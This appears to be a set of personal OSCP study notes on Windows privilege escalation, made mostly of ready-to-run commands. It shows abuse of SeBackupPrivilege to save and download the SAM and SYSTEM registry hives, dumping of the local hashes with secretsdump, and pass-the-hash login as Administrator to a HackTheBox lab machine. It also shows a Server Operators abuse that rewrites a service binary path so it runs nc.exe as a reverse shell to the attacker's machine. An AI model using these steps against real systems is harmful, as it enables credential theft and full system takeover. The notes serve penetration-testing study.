 ## Start here
Check user priveleges
```
whoami /priv
```
Interesting entries include:
- SeBackupPrivilege (get arbitrary file read; described below)
- SeLoadDriverPrivilege (load a vulnerable driver and exploit it)
- SeMachineAccountPrivilege (add a machine to the domain)

Check user groups
```
whoami /groups
```
Interesting entries include:
- Server Operators (start and stop services; described below)

  
## SeBackupPrivilege
SeBackupPrivilege exploitation
```
whoami /priv
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
```
Obtain SAM and SYSTEM registry hives
```
# Using evil-winrm session to the victim host
cd C:\temp
reg save hklm\sam sam
reg save hklm\system system
download sam
download system
```
Extract hashes
```
# On Kali host
secretsdump.py -sam sam -system system LOCAL
OR
impacket-secretsdump -sam sam -system system local

[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
Use the hashes (2nd part is the NT hash) with evil-winrm for execution
```
# evil-winrm -u Administrator -H <NT hash> -i cicada.htb
evil-winrm -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341 -i cicada.htb
```

## Server Operators
Create malicious service that creates privileged reverse shell nc.exe
```
# Using evil-winrm session, place the nc.exe in the same folder on Kali linux
# nc.exe will be uploaded to the current folder on the Windows host
upload nc.exe

# check running services
sc.exe query

# modify the config of 'vss' service (as this is a popular service) to point to nc.exe
sc.exe config vss binPath="C:\path\to\nc.exe -e cmd.exe <Kali IP> 4444"

# On Kali prepare for the connection
nc -nlvp 4444

# Restart the service
sc.exe stop VSS
sc.exe start VSS
```
The above-obtained shell is unstable and might die after a few seconds. A more efficient way would be to obtain a meterpreter shell and then quickly migrate to a more stable process.

Refer to: https://github.com/nestef23/my-OSCP-notes/blob/e963b72f058faffbab4a14b35eb2f6878be04900/InitialAccess/revshells.md#with-msfvenom


